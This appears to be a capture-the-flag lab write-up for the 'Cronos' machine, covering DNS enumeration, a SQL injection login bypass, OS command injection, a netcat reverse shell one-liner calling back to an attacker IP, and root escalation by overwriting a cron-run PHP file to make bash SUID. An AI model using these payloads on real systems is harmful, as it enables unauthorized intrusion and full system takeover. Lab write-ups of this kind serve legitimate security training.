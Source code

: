 # Cronos

## Basic Information

|          |  |
| :---                 |     :---:      |
| Machine Name         | Cronos     |
| Written by           | Adir Biran       |
| IP Address           | 10.10.10.13       |
| Tools and Techniques | Nmap, Gobuster, nslookup, dig, SQL Injection, Command Injection, Cronjobs       |

## Method

## Enumeration


#### Nmap
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677718-6b630f54-92d5-4b90-81fb-10b4ee89e47c.png">
</p>

Open Ports:  
22 - SSH  
53 - DNS  
80 - HTTP  

#### Gobuster

Gobuster - Port 80  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677719-8e4f9dfc-7820-45e4-94e6-8c32a582ec1c.png">
</p>

The website - Port 80  
<img src="https://user-images.githubusercontent.com/21021400/145677720-3e99be85-6762-4023-b68f-4ea99ef70811.png">
<p align="center">
</p>

Looking for virtual hosts and using the machine itself as the DNS server  
```
nslookup 10.10.10.13 10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677721-c549c411-d118-4ee8-b20f-8e09f00ece02.png">
</p>

Domain found: cronos.htb  

Looking for virtual hosts related to cronos.htb  
```
dig axfr cronos.htb @10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677722-ed52b9d2-3f44-4209-914e-f554938b985e.png">
</p>

Virtual hosts found:  
cronos.htb  
ns1.cronos.htb  
admin.cronos.htb  

Added them to /etc/hosts  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677724-0e8d0677-de27-431c-b431-a4c2543bc3ef.png">
</p>

cronos.htb  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677725-62437be2-326c-4156-a4f1-056cf65a3d0f.png">
</p>

ns1.cronos.htb  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677726-669d2693-4015-4bd3-9fd1-e5db1f99600d.png">
</p>

admin.cronos.htb  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677727-1dd27a73-4488-4ab9-84df-3e66d18d86fa.png">
</p>

## Exploitation

Tried admin:admin and few more default credentials - all failed  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677728-c38155e2-6f05-4b32-a689-73826a4275f3.png">
</p>

#### SQL Injection

Tried SQL injection
```
' or 1==1-- -
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677729-957cac37-65da-4faf-b628-2a22bfa7f000.png">
</p>

And we're in.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677730-8ba44d89-b9d2-40e3-bc3b-af0c3d40a76e.png">
</p>

Pinged myself and captured the traffic with tcpdump  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677731-a0421405-d315-4c4d-83bb-358db05712b7.png">
</p>

#### OS Command Injection

Tried OS command injection  
```
;whoami
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677732-e56b199b-bef1-426b-8862-a9fbebf28565.png">
</p>

The user running the commands is www-data.  

Let's get a reverse shell  
```
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677733-3136df78-09b4-41a1-838e-d81c4ed01a9f.png">
</p>

## Privilege Escalation (www-data -> root)

Users on the machine:  
www-data  
noulis  
root  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677734-876ef1e6-3b9a-4935-96b1-33269212394d.png">
</p>


www-data's groups  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677735-524fc622-ce17-478c-bc2c-a058ed843151.png">
</p>

SUID files  
```
find / -perm -4000 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677736-dd9b77d6-dd8e-433b-b7cf-5b1bf67f275c.png">
</p>

sudo permissions  
```
sudo -l
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677737-7c8f3876-147c-4fd3-810b-43f038b7a8d6.png">
</p>

Capabilities  
```
getcap -r / 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677739-1f478587-07f6-4cef-85a2-c402e4577402.png">
</p>

Checking noulis' home directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677740-55b963a1-2c6f-47e9-8f5d-e721e09f6b2f.png">
</p>

Checking /var/www directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677742-542d0ded-42b9-4f1a-bdef-4ee2150eebce.png">
</p>

Laravel is installed in /var/www, checking config files in laravel/.env  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677743-be5d86da-253d-47fb-8d83-36e4dd8a01e7.png">
</p>

Checking crontab
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677744-5453e29a-9bfa-41d2-a291-59c471a12b35.png">
</p>

There is a cron job running by root every minute.  
executing with php the /var/www/laravel/artisan file.  

Checking the content of the artisan file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677745-a124ded3-b202-4f6b-9522-d1c1bd6384a0.png">
</p>

We can write to that file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677746-4671096c-0975-4a67-83cf-ea1b57a76929.png">
</p>

Let's replace the content of the file with the following:  
```
<?php
system('chmod +s /bin/bash');
?>
```

By executing the command:  
```
echo "<?php system('chmod +s /bin/bash'); ?>" > artisan
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677747-c67e0899-65b3-4edc-9aa5-1b3c133f36a9.png">
</p>

Once executed by root, a SUID will be added to /bin/bash and we will be able to get a root shell.  

After a minute, checking the /bin/bash permissions:  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677751-26efb128-2f8d-4e92-a4fc-9ff0bc959494.png">
</p>

Executing a root shell  
```
bash -p
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677752-17ae7c2b-99f1-43e9-93ec-6ca7e13fbad5.png">
</p>

and we're root.
